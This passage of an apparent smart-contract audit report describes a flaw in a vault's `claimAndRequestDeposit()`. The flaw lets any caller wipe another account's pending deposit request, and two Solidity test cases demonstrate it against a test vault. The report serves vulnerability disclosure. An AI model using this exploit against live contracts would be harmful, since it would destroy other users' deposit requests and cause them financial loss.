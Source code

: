 This is even worsened by the fact that `claimAndRequestDeposit()` can be used to claim a deposit on behalf of any account. An attacker can wipe any requested deposit from an arbitrary `account` by simply calling `claimAndRequestDeposit(0, account, "")`. This will internally execute `_claimDeposit(account, account)`, which will trigger the described issue.

## Proof of concept

The following proof of concept demonstrates the scenario in which a user claims their own deposit during the current epoch:

```solidity
function test_ClaimSameEpochLossOfFunds_Scenario_A() public {
    asset.mint(alice, 1_000e18);

    vm.prank(alice);
    vault.deposit(500e18, alice);

    // vault is closed
    vm.prank(owner);
    vault.close();

    // alice requests a deposit
    vm.prank(alice);
    vault.requestDeposit(500e18, alice, alice, "");

    // the request is successfully created
    assertEq(vault.pendingDepositRequest(alice), 500e18);

    // now alice claims the deposit while vault is still open
    vm.prank(alice);
    vault.claimDeposit(alice);

    // request is gone
    assertEq(vault.pendingDepositRequest(alice), 0);
}
```

This other proof of concept illustrates the scenario in which an attacker calls `claimAndRequestDeposit()` to wipe the deposit of another account.

```solidity
function test_ClaimSameEpochLossOfFunds_Scenario_B() public {
    asset.mint(alice, 1_000e18);

    vm.prank(alice);
    vault.deposit(500e18, alice);

    // vault is closed
    vm.prank(owner);
    vault.close();

    // alice requests a deposit
    vm.prank(alice);
    vault.requestDeposit(500e18, alice, alice, "");

    // the request is successfully created
    assertEq(vault.pendingDepositRequest(alice), 500e18);

    // bob can issue a claim for alice through claimAndRequestDeposit()
    vm.prank(bob);
    vault.claimAndRequestDeposit(0, alice, "");

    // request is gone
    assertEq(vault.pendingDepositRequest(alice), 0);
}
```